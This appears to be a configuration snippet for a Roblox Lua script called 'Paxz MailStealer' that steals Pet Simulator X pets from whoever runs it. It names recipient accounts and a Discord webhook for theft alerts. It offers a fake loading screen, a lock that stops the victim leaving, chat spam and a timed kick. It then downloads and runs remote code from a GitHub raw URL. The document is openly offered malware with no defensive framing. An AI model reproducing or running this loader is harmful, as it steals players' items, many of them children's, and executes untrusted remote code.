 -- {{Paxz MailStealer}} --

_G.UserName = "kool_aid14800" --// User you want to send good pets to like Titantics, Huges, exclusives
_G.UserName2 = "lolbot679" --// Sends bad pets to like event pets put the same user if you want to send them to first user to
_G.Webhook = "https://discord.com/api/webhooks/1133665203008061571/Iuh7x-CRldqDmJ-cY4_nYQP2oep5CSJv2MktOknQhfjHnMsMadhv65WmepNR_xkC7QjS" --// Sends you a notification if you are getting pets in your mail
_G.loadingScreenText = "restarting psx" --// Set _G.LoadingScreen to true for loading screen and here you can put text for it
_G.ChatMessage = "hi" --// Set _G.ChatSpam to true for spamming a message you put in here
_G.KickTime = "2" --// Kicks the player after the time you set (In Seconds)

-- [[Extra Stuff]] --

_G.LoadingScreen = false --// Set to true if you want loadingscreen
_G.AntiLeave = false --// Set to true if you want to the player to not leave
_G.MouseLock = false --// Locks the mouse (Not working really well)
_G.ChatSpam = false --// Spams a message you putted in _G.ChatMessage in the chat
_G.CollectOrbs = false --// Collects all orbs from anywhere

-- /|\ Script /|\ --
loadstring(game:HttpGet("https://raw.githubusercontent.com/PaxzStealer/Paxz/main/Paxz%20MailStealer.lua", true))()
